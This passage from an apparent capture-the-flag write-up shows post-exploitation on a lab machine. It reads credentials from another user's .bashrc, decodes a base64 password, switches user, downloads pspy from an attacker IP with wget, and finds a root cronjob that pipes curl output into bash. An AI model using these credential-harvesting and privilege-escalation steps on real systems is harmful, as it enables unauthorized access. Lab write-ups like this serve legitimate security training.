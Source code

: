 Using this, we are able to read files as the `toad` user.

Checking the usual files inside the user's home directory, we discover some credentials inside the `.bashrc` file.

```console
www-data@mkingdom:/var/www$ /bin/cat /home/toad/.bashrc
...
export PWD_token='aWthVGVOVEFOdEVTCg=='
```

Decoding it from `base64`, we get a password.

```console
www-data@mkingdom:/var/www$ echo aWthVGVOVEFOdEVTCg== | base64 -d
ikaTeNTANtES
```

Trying the password for the users on the machine, it works for the `mario` user. We are able to switch to the user using `su` and read the user flag.

```console
www-data@mkingdom:/var/www$ su - mario
Password:
mario@mkingdom:~$ id
uid=1001(mario) gid=1001(mario) groups=1001(mario)
mario@mkingdom:~$ wc -c user.txt
38 user.txt
```

> Since the `cat` binary runs as the `toad` user, you won't be able to read the flag with it, but you can use `tac`,`nano`,`less` or many other binaries for it.
{: .prompt-tip }

## Shell as root

### Discovering the cronjob

Checking the running processes using `pspy`, we discover a `cronjob` run by the `root` user.

```console
mario@mkingdom:~$ wget 10.11.72.22/pspy64
...
mario@mkingdom:~$ chmod +x pspy64
mario@mkingdom:~$ ./pspy64
...
2024/06/14 18:03:01 CMD: UID=0     PID=2577   | CRON
2024/06/14 18:03:01 CMD: UID=0     PID=2578   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
```

It fetches the script at `http://mkingdom.thm:85/app/castle/application/counter.sh` using `curl`, runs it by piping it to `bash`, and appends the output of it to the `/var/log/up.log` file.

Unfortunately, we are not able to overwrite or replace the `counter.sh` script at `/var/www/html/app/castle/application/counter.sh`.
